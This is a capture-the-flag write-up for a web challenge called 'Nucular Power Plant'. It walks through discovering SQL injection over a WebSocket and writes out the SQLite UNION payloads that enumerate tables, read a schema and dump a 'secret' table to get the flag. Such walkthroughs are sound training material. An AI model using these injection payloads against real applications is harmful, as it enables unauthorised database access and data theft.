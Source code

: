 # Nucular Power Plant

## baby-web - Points: 105

> We found this overview page of nucular power plants, maybe you can get us some secret data to fight them?
>
> http://31.22.123.49:1909

When inspecting the source code of the website, you will quickly stumble over the `main.js` and some communication via a `WebSocket`. It receives `JSON` messages in different types. It will at first receive an `Array` and call the `plantList`, that contains all the power plants that are visible in the list. As soon as you select a power plant, it will receive data for `plantDetails`, the information shown in the center and then continuously receive data of type `number`, some random values, to update the current power supply state.

To reveal the data in `Chromium`, open the `DevTools` (F12), goto the `Sources` tab and open the `main.js` and add `console.log(data);` right after the parsing of the message.

The interesting part is, how the selection of a plant is handled: When you select a plant, it sends the name of it over the socket. If you probe for `SQLi`, for example by modifying `ws.send('" foo');`, it returns the string

	Error: SqliteFailure(Error { code: Unknown, extended_code: 1 }, Some("near \"foo\": syntax error"))

So it is `SQLite` database and it is vulnerable! :)

With `ws.send('" OR "1"="1" LIMIT 1 OFFSET 1;');` where you are free to change the `offset` you can force to load specific data, but there seems to be nothing more interesting in the table.

Lets try to enumerate all the tables of the database, [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md) has some useful queries for this:

	SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'

But we have to make it compatible for our query, we can do a `UNION` and add some dummy data to keep the structure of the initial `SELECT` that we can not change. The following query will now print the table name as the plant name:

	ws.send('" UNION SELECT tbl_name, "foo", 0, 0, "foo", 0 FROM sqlite_master WHERE type="table" and tbl_name NOT like "sqlite_%";');

And we get as a result `nucular_plant` as table name. Are there more tables?

	ws.send('" UNION SELECT tbl_name, "foo", 0, 0, "foo", 0 FROM sqlite_master WHERE type="table" and tbl_name NOT like "sqlite_%" LIMIT 1 OFFSET 1;');

Oh, there is also another table named `secret`! :)

Lets try to enumerate the column names:

	ws.send('" UNION SELECT sql, "foo", 0, 0, "foo", 0 FROM sqlite_master WHERE type!="meta" AND sql NOT NULL AND name NOT LIKE "sqlite_%" AND name ="secret";');    

And we get as result the structure of the table:

	CREATE TABLE secret (id INTEGER PRIMARY KEY,name TEXT NOT NULL,value TEXT NOT NULL)

Lets read it out:

	ws.send('" UNION SELECT name, value, id, 0, "foo", 0 FROM secret;');

flag: `flag{sqli_as_a_socket}`